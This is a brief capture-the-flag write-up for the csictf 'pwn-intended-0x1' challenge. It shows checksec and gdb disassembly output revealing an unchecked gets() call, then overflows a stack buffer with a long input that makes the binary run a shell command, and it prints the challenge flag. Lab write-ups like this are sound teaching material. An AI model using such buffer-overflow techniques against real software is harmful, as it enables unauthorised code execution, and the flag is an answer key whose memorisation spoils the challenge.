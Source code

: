 Info

$file pwn-intended-0x1

pwn-intended-0x1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=1fc0accd801ea951a4ec2f7f8c804e0559ccb1db, for GNU/Linux 3.2.0, not stripped

$ checksec pwn-intended-0x1
[*] /pwn-intended-0x1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

Anaylsing binary 

gdb-peda$ disass main
Dump of assembler code for function main:
   0x0000000000401156 <+0>:	push   rbp
   0x0000000000401157 <+1>:	mov    rbp,rsp
   0x000000000040115a <+4>:	sub    rsp,0x30
   0x000000000040115e <+8>:	mov    DWORD PTR [rbp-0x4],0x0
   0x0000000000401165 <+15>:	mov    rax,QWORD PTR [rip+0x2ef4]        # 0x404060 <stdout@@GLIBC_2.2.5>
   0x000000000040116c <+22>:	mov    esi,0x0
   0x0000000000401171 <+27>:	mov    rdi,rax
   0x0000000000401174 <+30>:	call   0x401040 <setbuf@plt>
   0x0000000000401179 <+35>:	mov    rax,QWORD PTR [rip+0x2ef0]        # 0x404070 <stdin@@GLIBC_2.2.5>
   0x0000000000401180 <+42>:	mov    esi,0x0
   0x0000000000401185 <+47>:	mov    rdi,rax
   0x0000000000401188 <+50>:	call   0x401040 <setbuf@plt>
   0x000000000040118d <+55>:	mov    rax,QWORD PTR [rip+0x2eec]        # 0x404080 <stderr@@GLIBC_2.2.5>
   0x0000000000401194 <+62>:	mov    esi,0x0
   0x0000000000401199 <+67>:	mov    rdi,rax
   0x000000000040119c <+70>:	call   0x401040 <setbuf@plt>
   0x00000000004011a1 <+75>:	lea    rdi,[rip+0xe60]        # 0x402008
   0x00000000004011a8 <+82>:	call   0x401030 <puts@plt>
   0x00000000004011ad <+87>:	lea    rax,[rbp-0x30]
   0x00000000004011b1 <+91>:	mov    rdi,rax
   0x00000000004011b4 <+94>:	mov    eax,0x0
   0x00000000004011b9 <+99>:	call   0x401060 <gets@plt>
   0x00000000004011be <+104>:	lea    rdi,[rip+0xe5f]        # 0x402024
   0x00000000004011c5 <+111>:	call   0x401030 <puts@plt>
   0x00000000004011ca <+116>:	cmp    DWORD PTR [rbp-0x4],0x0
   0x00000000004011ce <+120>:	je     0x4011ed <main+151>
   0x00000000004011d0 <+122>:	lea    rdi,[rip+0xe59]        # 0x402030
   0x00000000004011d7 <+129>:	call   0x401030 <puts@plt>
   0x00000000004011dc <+134>:	lea    rdi,[rip+0xe94]        # 0x402077
   0x00000000004011e3 <+141>:	mov    eax,0x0
   0x00000000004011e8 <+146>:	call   0x401050 <system@plt>
   0x00000000004011ed <+151>:	mov    eax,0x0
   0x00000000004011f2 <+156>:	leave  
   0x00000000004011f3 <+157>:	ret    
End of assembler dump.

We can see gets function.so try it by giving some input to fill  stack

gdb-peda$ r 
Starting program: /home/kl4u5/Downloads/pwn-intended-0x1 
Please pour me some coffee:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Thanks!

Oh no, you spilled some coffee on the floor! Use the flag to clean it.

process  is executing new program: /bin/dash
[New process]
process  is executing new program: /bin/cat

We can see its a easy bufferoverflow vulnerability.


flag csictf{y0u_ov3rfl0w3d_th@t_c0ff33_l1ke_@_buff3r}



